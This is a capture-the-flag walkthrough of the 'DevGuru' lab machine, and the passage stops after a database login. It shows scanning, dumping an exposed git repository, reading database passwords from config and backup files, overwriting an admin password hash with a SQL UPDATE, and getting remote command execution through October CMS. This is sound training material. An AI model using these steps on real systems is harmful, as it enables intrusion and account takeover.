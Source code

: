 # DevGuru Writeup

### Credits: Zayotic

## [ Task 1 ] - user.txt

* First run an n̶m̶a̶p̶ rustscan* scan
### Scan Output:
```
PORT     STATE SERVICE REASON         VERSION
22/tcp   open  ssh     syn-ack ttl 61 OpenSSH 7.6p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
--  snip  --
80/tcp   open  http    syn-ack ttl 61 Apache httpd 2.4.29 ((Ubuntu))
|_http-generator: DevGuru
| http-git: 
|   10.10.37.203:80/.git/
|     Git repository found!
|     Repository description: Unnamed repository; edit this file 'description' to name the...
|     Last commit message: first commit 
|     Remotes:
|       http://devguru.local:8585/frank/devguru-website.git
|_    Project type: PHP application (guessed from .gitignore)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Corp - DevGuru
| vulners: 
|   cpe:/a:apache:http_server:2.4.29: 
|_    	CVE-2017-15710	5.0	https://vulners.com/cve/CVE-2017-15710
8585/tcp open  unknown syn-ack ttl 61
| fingerprint-strings: 
|   GenericLines: 
|     HTTP/1.1 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     Connection: close
|     Request
--  snip  --
```
### Dumping Git
* Git repository found!, Lets dump it and run a git checkout

```
adminer.php  bootstrap  index.php  plugins    server.php  themes
artisan      config     modules    README.md  storage
```
* It seems theres a database.php file in config/
#### config/database.php:

```
        'mysql' => [
            'driver'     => 'mysql',
            'engine'     => 'InnoDB',
            'host'       => 'localhost',
            'port'       => 3306,
            'database'   => 'octoberdb',
            'username'   => 'october',
            'password'   => 'SQ66EBYx4GT3byXH',
            'charset'    => 'utf8mb4',
            'collation'  => 'utf8mb4_unicode_ci',
            'prefix'     => '',
            'varcharmax' => 191,
        ],
```
### Lets click on sql command and start messing with the db
![image](./images/1.png)

### select * from backend_users;

![image2](./images/2.png)

### These creds are useless, trust me...

### Now since we cant use these credentials, why not switch them?
```
UPDATE `backend_users` SET `password` = '$2y$12$8uIf92IlXQT9MKVExDhT8uCcqwG3cZ/QJRs.gR920igyNV89ACI5m' WHERE `password` = '$2y$10$bp5wBfbAN6lMYT27pJMomOGutDF2RKZKYZITAupZ3x8eAaYgN6EKK'
```
### Franks password is now: password
### Lets login to the October CMS

![image3](./images/3.png)

## Now lets click on CMS > About
### Remove everything on the markup page and insert {{ onStart }}
![image4](./images/4.png)

### Now lets click on the code section and input the following php
![image5](./images/5.png)

### Now we should be able to get an RCE on this system
```
http://devguru.thm/about?cmd=whoami
```
### With this, we also get a shell (no python, just python3)

![image7](./images/7.png)

### Now that we have a shell, we can perform the normal enumeration
### The interesting thing was found with:
```
find / -name *.bak 2>/dev/null | tee /dev/shm/log.txt
```
### There seems to be an app.ini.bak in /var/backups

```
cat app.ini.bak | grep data -C 10


[database]
; Database to use. Either "mysql", "postgres", "mssql" or "sqlite3".
DB_TYPE             = mysql
HOST                = 127.0.0.1:3306
NAME                = gitea
USER                = gitea
; Use PASSWD = `your password` for quoting if you use special characters in the password.
PASSWD              = UfFPTF8C8jjxVF2m
; For Postgres, schema to use if different from "public". The schema must exist beforehand,
; the user must have creation privileges on it, and the user search path must be set
; to the look into the schema first. e.g.:ALTER USER user SET SEARCH_PATH = schema_name,"$user",public;
SCHEMA              = 
```
### Nice, lets login to the mysql server
* This can also be done with adminer but gui bad and only soopr hakrs so were goin with cli
```
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 2909
Server version: 10.1.47-MariaDB-0ubuntu0.18.04.1 Ubuntu 18.04

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [(none)]> 
```
### And were in, lets take a look around
